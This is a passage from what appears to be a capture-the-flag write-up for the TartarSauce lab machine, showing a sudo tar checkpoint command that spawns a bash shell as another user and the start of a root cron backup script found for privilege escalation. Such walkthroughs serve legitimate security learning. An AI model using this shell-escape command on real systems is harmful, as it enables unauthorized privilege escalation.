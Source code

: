 **`sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Tartarsauce%20Box%2084cb3638ded749ddb41961e897926939/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Tartarsauce%20Box%2084cb3638ded749ddb41961e897926939/Untitled%208.png)

## Privilege Escalation to root

→ After running pspy we discover an cronjob running **`/bin/bash /usr/sbin/backuperer`**

→ Code of **`/usr/sbin/backuperer`**

```bash
#!/bin/bash                                                                                                                                                                     
                                                                                                                                                                                
#-------------------------------------------------------------------------------------                                                                                          
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ                                                                                                                                             
# ONUMA Dev auto backup program                                                                                                                                                 
# This tool will keep our webapp backed up incase another skiddie defaces us again.                                                                                             
# We will be able to quickly restore from a backup in seconds ;P                                                                                                                
#-------------------------------------------------------------------------------------                                                                                          
                                                                                                                                                                                
# Set Vars Here                                                                                                                                                                 
basedir=/var/www/html                                                                                                                                                           
bkpdir=/var/backups                                                                                                                                                             
tmpdir=/var/tmp                                                                                                                                                                 
testmsg=$bkpdir/onuma_backup_test.txt                                                                                                                                           
errormsg=$bkpdir/onuma_backup_error.txt                                                                                                                                         
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)                                                                                                     
check=$tmpdir/check                                                                    
                                                                                       
# formatting                                                                           
printbdr()                                                                             
{                                                                                      
    for n in $(seq 72);                                                                
    do /usr/bin/printf $"-";                                                           
    done                                                                               
}                                           
bdr=$(printbdr)                                                                        
                                                                                       
# Added a test file to let us see when the last backup was run                          
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg
                                           
# Cleanup from last time.    
/bin/rm -rf $tmpdir/.* $check               

```